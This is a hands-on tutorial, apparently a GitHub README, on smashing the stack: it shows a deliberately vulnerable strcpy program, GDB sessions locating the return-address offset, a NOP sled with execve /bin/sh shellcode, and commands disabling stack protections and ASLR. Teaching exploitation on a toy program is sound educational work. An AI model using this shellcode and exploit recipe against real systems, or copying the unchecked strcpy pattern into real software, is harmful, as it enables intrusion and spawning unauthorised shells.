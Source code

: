 ### Smashing the stack the old way ###

Lets begin with a inocent program
```
#include<stdio.h>
#include<string.h>

int main(int argc, char** argv) {
    char buffer[500];
    strcpy(buffer, argv[1]);
    return 0;
}

```

Lets compile it
```
gcc vuln.c -o vuln

```

See nothing happens
```
$ ./vuln hello
```

Now if we send more than what we defined in our buffer
```
$ ./vuln $(python -c 'print "\x41" * 524 ')
Segmentation fault
```

This means that we overrun the buffer

Lets retry this in the GDB debuger:

```
$ gdb vuln
(gdb) run $(python -c 'print "\x41" * 524 ')
Program received signal SIGSEGV, Segmentation fault.
0x00007f0041414141 in ?? ()
```

Now lets check the registers

```
(gdb) info reg
rip            0x7f0041414141   0x7f0041414141
```
This means that now we control what the rip register point to.
This is our powerfull weapon beacuse this is the vulnerability itself,
becuse if we can control rip we can point it to our malicious code.

Lets Introduce the nop-sled:

The NOOP instruction tells the CPU to do nothing and move to the next instruction.
The nop sled is like: pincture boba fet falling into the sarlac pit.
Anywhere we land into the middle of a nop-sled we end up in the same place.
And in the end of the nop-sled we are going to put our shellcode.
Then our main idea is to put a big enought nop-sled that takes almost all the buffer up to almost the address where rip is.

Again we run our inocent program with a bunch of nops
```
(gdb) run $(python -c 'print "\x90" * 524 ')
Program received signal SIGSEGV, Segmentation fault.
0x00007f0090909090 in ?? ()
```
The same happens but the rip address not points to 0x00007f0090909090

We need to add to the end of the nop-sled our shellcode **"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"**

This is a generic linux-x86_64 execve /bin/sh shellcode

Its asm code is:
```
   0:   48 31 f6                xor    %rsi,%rsi
   3:   56                      push   %rsi
   4:   48 bf 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rdi
   b:   2f 73 68 
   e:   57                      push   %rdi
   f:   54                      push   %rsp
  10:   5f                      pop    %rdi
  11:   b0 3b                   mov    $0x3b,%al
  13:   99                      cltd   
  14:   0f 05                   syscall 
  16:   0a                      .byte 0x
```

Appending it and executing our exploit again:
```
(gdb) run $(python -c 'print "\x41" * 524 + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  ')
Program received signal SIGSEGV, Segmentation fault.
0x0000555555555173 in main ()
```
As we can see the resulting address 0x0000555555555173 is not even in the stack range
we can check this with:

```
(gdb) info proc mappings
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555555000     0x555555556000     0x1000     0x1000 /home/dclavijo/stack_smashing/vuln
      0x7ffff7f87000     0x7ffff7f8a000     0x3000   0x1bb000 /lib/x86_64-linux-gnu/libc-2.30.so
      0x7ffff7fce000     0x7ffff7fd2000     0x4000        0x0 [vvar]
      0x7ffff7fd2000     0x7ffff7fd4000     0x2000        0x0 [vdso]
      0x7ffff7fd4000     0x7ffff7fd5000     0x1000        0x0 /lib/x86_64-linux-gnu/ld-2.30.so
      .
      .
      .
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.30.so
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]

```
Our stack is in the region of **0x7ffffffde000-0x7ffffffff000**.
this means that our nop-sled will need to covert all this region and our rip address will need to point to some place in this region.
lets say: **0x7fffffffdead**
We also need to substract the payload from the nop sled, the payload is 23 bytes so 524-23

Lets hit it again:
```
(gdb) run $(python -c 'print "\x41" * (524-23) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  ')
Program received signal SIGSEGV, Segmentation fault.
0x00007fff00050f99 in ?? ()
```
We are getting close:

Fur last we need to add our rip address that is going to be overwriten:
ived signal SIGSEGV, Segmentation fault.

witch is **0x7fffffffdead** and in the x86_64 machine endianess:
We are going to add it more than one time because we are overwriting registers in ram so we dont know where exactly they are we only kknow that we need to be aligned in order for it to work. And we need to substract it from our nop-sled to not overshoot.

Lets try:
```
(gdb) run $(python -c 'print "\x41" * (524-23-30) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
```
Program received signal SIGSEGV, Segmentation fault.
0xffffffdead050f99 in ?? ()

We got very close:

**0xffffffdead050f99** is not the address we wanted to **0x7fffffffdead**

We need to align our exploit to the machine registers in ram 
A +2 will suffice

```
(gdb) run $(python -c 'print "\x41" * (524-23-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
```

Voila, we landed into the mouth of the sarlac, but why didnt our exploit worked at all?

```
(gdb) run $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdead in ?? ()
```

But why didnt our exploit worked at all?

Lets inspect our RIP or (return instruction pointer):

```
0x00007fffffffdead in ?? ()
(gdb) x/10x 0x00007fffffffdead
0x7fffffffdead: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffdebd: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffdecd: 0x90909090  0x90909090
```

We can seed that effectively we landed in the middle of our nop-sled but nothing happened.
This is beacuse newer versions of gcc and linux by default set the execution bit of the stack page to disabled.
So we need to recompile again our inocent code disabling the stack execution protection.

```
gcc -z execstack  -g -fno-inline -fno-stack-protector -fno-pie -O0  vuln.c -o vuln
```

Lets hit it one more time
```
gdb vuln
(gdb) run $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
$
```
Holy shiet, we have our first shell executed from a an expoit!!!

Lets try one more thing, lets execute it outside gdb:

```
./vuln $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Segmentation fault
```
WTF? why didn't work?
Newer versions of linux include ASLR or Address space layout randomization.
ASLR is a technique of address randomization witch re arranges the internal mappings of the sections of a process memory.
Our exploit didn't work beacuse we are asumming our program stack is going to be fixed in the range **0x7ffffffde000-0x7ffffffff000** and ASLR efectively prevents it to work beacuse in linux is enabled by defaut.
But we can disable it momentarily

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

And for last time:
```
./vuln $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
$
```

We got our exploit working.


References

* https://en.wikipedia.org/wiki/NOP_slide
* https://en.wikipedia.org/wiki/Address_space_layout_randomization

